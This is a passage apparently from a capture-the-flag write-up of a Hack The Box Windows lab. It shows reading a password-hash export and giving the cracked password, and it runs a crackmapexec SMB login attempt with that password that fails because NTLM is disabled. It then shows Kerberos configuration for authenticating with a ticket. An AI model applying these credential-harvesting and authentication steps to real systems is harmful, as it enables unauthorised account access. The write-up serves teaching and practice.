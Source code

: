 Reading the latest one reveals a hash:

{% code overflow="wrap" %}
```
c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-13102022-210856.csv

Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'
```
{% endcode %}

This is crackable:

<figure><img src="../../../.gitbook/assets/image (8) (5) (2).png" alt=""><figcaption></figcaption></figure>

`!!!!ilovegood17` is the password here.

### NTLM Ban --> Beatrice Ticket

I tried to use `crackmapexec`, but it doesn't work:

```
$ crackmapexec smb 10.129.71.218 -u 'BeatriceMill' -p '!!!!ilovegood17'  
SMB         10.129.71.218   445    10.129.71.218    [*]  x64 (name:10.129.71.218) (domain:10.129.71.218) (signing:True) (SMBv1:False)
SMB         10.129.71.218   445    10.129.71.218    [-] 10.129.71.218\BeatriceMill:!!!!ilovegood17 STATUS_NOT_SUPPORTED
```

`STATUS_NOT_SUPPORTED` is an error that looks like it's going to be a reoccuring theme throughout this machine. A bit of research reveals that this is due to NTLM not being able to be used as an authentication method on this machine.

{% embed url="https://care.qumulo.com/hc/en-us/articles/360001006108-Resolve-failing-SMB-Client-Connections-with-NTLM-Authentication-#adjust-ntlm-authentication-level-0-4" %}

This means that only Kerberos tickets would work in trying to authenticate in this machine. For this case, we have to use `kinit` to get a ticket, similar to another machine Absolute. We need to include this within our `/etc/krb5.conf` file:

```
[libdefaults]
	default_realm = WINDCORP.HTB
[realms]
	ABSOLUTE.HTB = {
                kdc = HATHOR.WINDCORP.HTB
                admin_server = HATHOR.WINDCORP.HTB
        }
```
